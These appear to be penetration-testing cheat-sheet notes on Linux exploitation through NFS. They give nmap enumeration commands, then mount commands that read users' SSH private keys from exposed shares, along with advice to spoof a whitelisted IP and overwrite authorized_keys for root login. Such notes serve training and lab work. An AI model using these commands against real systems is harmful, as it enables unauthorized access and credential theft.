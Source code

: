 # 4 - Linux Exploitation

## <mark style="color:green;">Enumeration</mark>

Linux enumeration cheatsheet

{% file src=".gitbook/assets/Post Exploitation CommandsCheatsheet (1).pdf" %}
important linux cmds
{% endfile %}

## <mark style="color:green;">Exploitation</mark>

`nmap -O --osscan-guess 192.168.0.178` - tries to guess the OS (aggressive detection).

Having scanned with nmap and identified ports we can start with targeting "Low-Hanging Fruits" i,e ports like <mark style="color:orange;">**"rpcbind (111)"**</mark>  and <mark style="color:orange;">**"nfs (2049)"**</mark> .

### <mark style="color:red;">NFS (2049)</mark>

The NFS (Network File System) is an RPC-based file sharing protocol often found configured on Unix-like systems, is typically used to provide access to shared resources and can be found listening on TCP/UDP port 2049.&#x20;

`nmap -sT -sU -sV -p2049 192.168.0.178` - open NFS ports .&#x20;

`nmap --script nfs-ls,nfs-showmount,nfs-statfs 192.168.0.178` - check if there are any NFS Exports directories.

or&#x20;

`showmount -e 192.168.0.178` - same as above nmap cmd.

> Note: if you see something like this; Export list for 192.168.0.178: /var/www 192.168.0.100 # could be any directory. /home/bob 192.168.0.100 # could be any directory. This means the ip addr 192.168.0.100 is whitelisted to access the NFS exports dir, we can spoof our ip to that ip to access the share.

#### NFS exploitation

Must use "sudo"

* `mkdir /mnt/root` - create a temporary mont point on kali.
* `mount -t nfs 192.168.0.178:/ /mnt/root -o nolock` - mount the exported NFS share there.
* `mount` - check if it was successfully mounted.
* `cd /mnt/root && ls -al` - cd into the dir and list its contents.
* `cat /mnt/root/home/*/.ssh/id` - we can also find all ssh keys and if we get a private key we can ssh into the victim without password by copying the private key and using it to login ie, `ssh -i id_rsa <user>@ip` . Article:  [https://jamespatricksec.medium.com/enumerating-and-exploiting-nfs-1571cb484e16](https://jamespatricksec.medium.com/enumerating-and-exploiting-nfs-1571cb484e16)&#x20;

or

Since we have write premission to the NFS export share ".ssh" folder, we can replace the existing authorized\_keys file on the share with a new file that has our public key in it and try to login as root.
